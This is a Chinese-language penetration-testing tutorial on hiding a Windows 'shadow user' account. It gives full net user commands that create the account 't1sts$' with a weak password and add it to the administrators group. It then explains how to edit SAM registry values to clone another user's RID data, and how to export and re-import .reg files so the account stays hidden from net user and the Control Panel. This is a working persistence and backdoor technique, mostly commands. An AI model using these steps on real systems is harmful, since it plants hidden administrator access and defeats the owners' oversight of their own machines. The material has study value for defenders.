






<span style="font-size: 40px; font-weight: bold;">影子用户</span>

<div style="text-align: right;">

date: "2024-01-17"

</div>

# 前提说明

1. 实用性不大，风险较高
2. 需要高权限才可以添加影子用户

# 实验

## 添加t1sts$用户

```shell
C:\Windows\system32>net user t1sts$ 123456 /add
命令成功完成。


C:\Windows\system32>net localgroup administrators t1sts$ /add
命令成功完成。


C:\Windows\system32>net user

\\DESKTOP-2JRVAGS 的用户帐户

-------------------------------------------------------------------------------
Administrator            c                        DefaultAccount
Guest                    WDAGUtilityAccount
命令成功完成。

```

现在虽然使用net user 无法查看到用户，但是在控制面版中可以查看到创建的用户



## 修改注册表

接下来修改注册表来达到隐藏效果，修改 `HKEY_LOCAL_MACHINE\SAM\SAM` 的权限为完全控制权限，修改后刷新以下则会出现隐藏的目录



查看其中的Users和Names，下图为t1sts$用户还未创建时和创建后的对比图，发现多出的目录为3EA，可以确认t1sts$用户的目录就是3EA，常见的有如下：

1. 1F4 通常对应于 Administrator 账户。
2. 1F5 通常对应于 Guest 账户。
3. 1F7 可能对应于 Default 账户。
4. 普通用户，将其 [RID](/docs/knowledge/domain_penetration/Base/SID.md) 转换为十六进制即为目录后的名称







测试机上c用户的RID为1001，十六进制值为0x3E9，此处选择将3E9目录中F的内容复制替换掉3EA目录中F的内容。相当于使用admin$账户登录c用户，且c用户修改密码不会影响到admin$账户。此处不使用复制1F4目录F内容是由于在个人电脑中administrator用户默认是未启用的，需要手动启用，且启用后在登录界面会显示该用户，实战中若对方开启了administrator即可复制1F4的内容。

```shell
# 启用管理员账户

net user administrator /active:yes

# 设置管理员账户密码

net user administrator *

```



3EA目录中F的内容替换之后，右击000003EA目录，点击导出，名称为3EA.reg，同理t1sts$导出为t1sts.reg

我们使用命令将t1sts$用户删除，并将两个reg文件导入注册表

```shell
net user t1sts$ /del

regedit /s t1sts.reg

regedit /s 3EA.reg
```

## 查看效果

最后我们远程连接尝试一下，并查看 `net user` 结果以及控制面板结果是否存在t1sts$用户


